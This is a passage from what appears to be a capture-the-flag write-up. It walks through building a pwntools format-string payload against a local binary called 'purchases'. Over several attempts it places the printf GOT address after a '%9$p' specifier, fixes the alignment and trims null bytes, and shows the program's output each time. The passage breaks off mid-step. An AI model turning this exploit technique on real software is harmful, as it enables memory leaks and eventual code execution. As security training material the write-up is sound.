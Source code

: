 ```python  
p.recvuntil("purchase? ")  
p.sendline(p64(printf_address)+'%8$p')          # Convert the address to
string  
print p.recv()  
```  
But the output is not what I expected:  
```  
You don't have any money to buy @@s. You're wasting your time! We don't even
sell @@s. Leave this place and buy @@ somewhere else. Get out!  
```  
Use `print hex(printf_address)` we get `0x404040`

But `print p64(printf_address)` we get `@@@\x00\x00\x00\x00\x00`

That is because C compiler see the null byte `\x00` so it print 2 characters
then it stops

So we change our plan, is to put the address after the Format String `%8$p`  
```python  
from pwn import *  
elf = ELF('./purchases')  
printf_address = elf.symbols['got.printf']      # Get the printf address  
p = elf.process()  
p.recvuntil("purchase? ")  
p.sendline('%8$p'+p64(printf_address))          # Convert the address to
string  
print p.recv()  
```  
But the output is not correct:  
```  
You don't have any money to buy 0x404070243825@@s. You're wasting your time!
We don't even sell 0x404070243825@@s. Leave this place and buy
0x404070243825@@ somewhere else. Get out!  
```  
We guess the Format String must be in 8 bytes format:  
```  
Before:  
[      8th argument    ][          9th argument        ]  
[%][8][$][p][40][40][40][00][00][00][00][00]...

After:  
[      8th argument    ][          9th argument        ]  
[%][8][$][p][ ][ ][ ][ ][40][40][40][00][00][00][00][00]  
```  
We added four space into the format string and change `%8$p` to `%9$p` because
9th argument  
```python  
from pwn import *  
elf = ELF('./purchases')  
printf_address = elf.symbols['got.printf']      # Get the printf address  
p = elf.process()  
p.recvuntil("purchase? ")  
p.sendline('%9$p    '+p64(printf_address))              # Convert the address
to string  
print p.recv()  
```  
But the output lost one byte:  
```  
You don't have any money to buy 0x4040    @@s. You're wasting your time! We
don't even sell 0x4040    @@s. Leave this place and buy 0x4040    @@ somewhere
else. Get out!  
```  
We're confuse about this, we try to delete the null bytes:  
```python  
p.sendline('%9$p    '+p64(printf_address)[:3])  
```  
And the output is almost correct:  